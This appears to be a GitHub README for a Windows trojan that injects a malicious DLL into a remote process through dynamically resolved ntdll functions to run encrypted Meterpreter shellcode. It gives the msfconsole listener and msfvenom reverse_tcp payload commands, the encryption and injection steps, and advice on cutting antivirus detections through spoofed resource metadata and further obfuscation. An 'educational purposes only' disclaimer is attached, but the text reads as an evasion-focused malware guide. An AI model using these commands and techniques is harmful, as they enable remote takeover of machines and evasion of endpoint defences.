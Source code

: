 # Native API Dll injector Trojan

Dll injector in a remote process using dynamically resolved Native Api functions and encrypted shellcode, undetected by Windows Defender.
This code is for educational purposes only, do not use it for any malicious or unauthorized activity.


# 💻 Code
Similarly to [this malware](https://github.com/Hue-Jhan/Ntdll-Process-inj-Trojan) i made, this one calls dynamically resolved functions from ntdll.dll, reducing static IAT footprint, it basically retrieves addresses of native api functions at runtime and calls them via a pre-made function pointer to inject a malicious dynamic link library in a target process, the library will upload shellcode into that process.

### 1) Listener and encrypted payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its detected way more than the raw shellcode for some reason:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ```encrypter.c```  file, where the binary data is converted into Base64, use a custom base64_chars set instead of the standard alphabet to obfuscate more, secondly XOR encryption is applied (single-byte key), and finally we convert it into a hexadecimal string. You can find the encrypting code [here](https://github.com/Hue-Jhan/Simple-shellcode-crypter) or you can use your own encryption, but remember not to use rsa or aes or similar encoding algorithms as they are "too perfect" and raise the entropy levels too much.

### 2.1) DLL:

We get a handle to ntdll and we dynamically resolve its functions both in the DLL and in the injector, unlike ```kernel32.dll``` APIs like VirtualAllocEx, ```ntdll``` functions are sometimes less likely to be hooked by EDRs at user level.

- In order to use Ntdll we create custom typedef structs for each function, and we define all the internal structures and objects that they need, sometimes structures may be nested and require even more internal objects;
- Then we use ```GetNtFunctionAddress``` function to dynamically retrieve addresses of NT functions from ntdll using ```GetProcAddress```;
- When the library is attached to the process, it decodes the obfuscated shellcode and using the native api functions it uploads it into memory;
- Then it creates a thread into the same process its being injected into and the previously uploaded shellcode will be executed.

### 2.2) Injector:

The injector loads the dynamic library onto disk, looks for a specific process and injects the library into it:

- First of all we put the malicious dll in the same folder as the injector, we create a resource file and its header and we set the dll as a resource of the injector;
- Secondly on the injector we locate the resource file, calculate its size, upload it to memory, and lock it for access so it can be used without being moved;
- Thirdly we extract the dll from the executable and write it to disk;
- We find a process by PID iterating through a pre-made linked list of ```SYSTEM_PROCESS_INFORMATION``` structs representing all running processes;
- We allocate memory the size of the dll path inside of it and write the path into the process;
- Then we get the handle to kernel32.dll and ntdll.dll and dynamically resolve the address of LoadLibraryA using ```LdrGetProcedureAddress```;
- Finally we create a thread that executes the function that loads the malicious dll;
- The Dll decodes the data and uploads it to memory, creating the shell;

Extracting the dll and uploading to disk is risky, in the future i will upload it directly to memory.

# 🛡 AV Detection

The raw Dll gets like 5 detections,  <img align="right" src="media/nt-dll-crypt-reshacked.png" width="350" /> if i upload the metadata and resources of another library such as ntdll itself, the detections drop to 1.

The raw exe file is currently undetected by windows defender but gets blocked by Bitdefender (even the free trial, yes bitdefender is the best av in my opinion, only behind crowdstrike). 

<img align="right" src="media/nt-dll-inj.png" width="350" />

On virus total it gets 11 detections and as usual it doesn't show bitdefender flagging it.

If i obfuscate the file even more with Resource Hacker by inserting the metadata of another well known software like shotcut, the detections drop to 8/9 on virus total. 

You can obfuscate it even more using tools like soggoth, or by turning it into an msi or iso file. <img align="right" src="media/nt-dll-inj-reshacked-shotcut.png" width="400" />
